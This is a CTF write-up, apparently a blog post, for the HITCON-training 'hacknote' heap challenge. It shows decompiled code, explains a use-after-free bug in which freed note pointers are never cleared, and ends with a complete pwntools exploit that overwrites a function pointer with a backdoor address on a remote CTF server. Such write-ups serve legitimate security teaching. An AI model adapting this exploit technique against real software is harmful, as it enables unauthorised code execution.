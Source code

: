 ```yaml
---
layout: post
title:  hacknote
date:   2021-02-10 00:01:01 +0300
image:  2021-02-10-snail.jpg
tags:   [ctf,PWN,UAF,HITCON-training,heap,ubuntu16]
---
```


#### main()

```assembly
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  char buf; // [esp+0h] [ebp-Ch]
  int *v5; // [esp+4h] [ebp-8h]

  v5 = &argc;
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  while ( 1 )
  {
    while ( 1 )
    {
      menu();
      read(0, &buf, 4u);
      v3 = atoi(&buf);
      if ( v3 != 2 )
        break;
      del_note();
    }
    if ( v3 > 2 )
    {
      if ( v3 == 3 )
      {
        print_note();
      }
      else
      {
        if ( v3 == 4 )
          exit(0);
LABEL_13:
        puts("Invalid choice");
      }
    }
    else
    {
      if ( v3 != 1 )
        goto LABEL_13;
      add_note();
    }
  }
}
```

#### menu()

```assembly
int menu()
{
  puts("----------------------");
  puts("       HackNote       ");
  puts("----------------------");
  puts(" 1. Add note          ");
  puts(" 2. Delete note       ");
  puts(" 3. Print note        ");
  puts(" 4. Exit              ");
  puts("----------------------");
  return printf("Your choice :");
}
```

#### add()

```assembly
int add_note()
{
  int result; // eax
  _DWORD *v1; // esi
  char buf; // [esp+0h] [ebp-18h]
  size_t size; // [esp+8h] [ebp-10h]
  int i; // [esp+Ch] [ebp-Ch]

  result = count;
  if ( count > 5 )
    return puts("Full");
  for ( i = 0; i <= 4; ++i )
  {
    result = (int)notelist[i];
    if ( !result )
    {
      notelist[i] = malloc(8u);
      if ( !notelist[i] )
      {
        puts("Alloca Error");
        exit(-1);
      }
      *notelist[i] = print_note_content;
      printf("Note size :");
      read(0, &buf, 8u);
      size = atoi(&buf);
      v1 = notelist[i];
      v1[1] = malloc(size);
      if ( !notelist[i][1] )
      {
        puts("Alloca Error");
        exit(-1);
      }
      printf("Content :");
      read(0, (void *)notelist[i][1], size);
      puts("Success !");
      return count++ + 1;
    }
  }
  return result;
}
```

每个note有两个字段put与content，其中put会被设置为一个函数，其函数会输出content具体的内容。

#### del_note()

```assembly
_DWORD *del_note()
{
  _DWORD *result; // eax
  char buf; // [esp+8h] [ebp-10h]
  int v2; // [esp+Ch] [ebp-Ch]

  printf("Index :");
  read(0, &buf, 4u);
  v2 = atoi(&buf);
  if ( v2 < 0 || v2 >= count )
  {
    puts("Out of bound!");
    _exit(0);
  }
  result = notelist[v2];
  if ( result )
  {
    free((void *)notelist[v2][1]);
    free(notelist[v2]);
    result = (_DWORD *)puts("Success");
  }
  return result;
}
```

先free掉content，再free掉。

只是单纯进行了 free，而没有将指针设置为NULL或0，因此存在UAF漏洞。

#### print_note()

```assembly
_DWORD *print_note()
{
  _DWORD *result; // eax
  char buf; // [esp+8h] [ebp-10h]
  int v2; // [esp+Ch] [ebp-Ch]

  printf("Index :");
  read(0, &buf, 4u);
  v2 = atoi(&buf);
  if ( v2 < 0 || v2 >= count )
  {
    puts("Out of bound!");
    _exit(0);
  }
  result = notelist[v2];
  if ( result )
    result = (_DWORD *)((int (__cdecl *)(_DWORD *))*notelist[v2])(notelist[v2]);
  return result;
}
```

使用设置的函数输出content。

#### 思路：

先创建note0

* put（8）
* content（size）

note1

* put（8）
* content（size）

delete掉note0和note1，四个堆放入fastbin。

* note0 content（size）

* note0 put        （8）

* note1 content （size）

* note1 put        （8）

* ​       Top Chunk

接下来要想办法将某个note的put改为后门函数的地址。而修改内容只能使用程序的Add_note()功能。

add时，先申请一个8字节的堆存放put函数，即note1 put。

接下来申请的content内存用来实现将put函数改为后门函数，所以content的size只能为8，这样才可以得到note0 put的内存空间。

#### exp：

```assembly
from pwn import *

# io = process("./hacknote")
io = remote("node3.buuoj.cn",28764)

def add(size, content):
    io.recvuntil("Your choice :")
    io.sendline(str(1))
    io.recvuntil("Note size :")
    io.sendline(str(size))
    io.recvuntil("Content :")
    io.sendline(content)

def delete(index):
    io.recvuntil("Your choice :")
    io.sendline(str(2))
    io.recvuntil("Index :")
    io.sendline(str(index))

def print_(index):
    io.recvuntil("Your choice :")
    io.sendline(str(3))
    io.recvuntil("Index :")
    io.sendline(str(index))

magic = 0x8048945

add(0x30, "aaaa")
add(0x30, "bbbb")

delete(0)
delete(1)

add(0x8, p32(magic))

print_(0)

# gdb.attach(io)
# raw_input()

io.interactive()
```

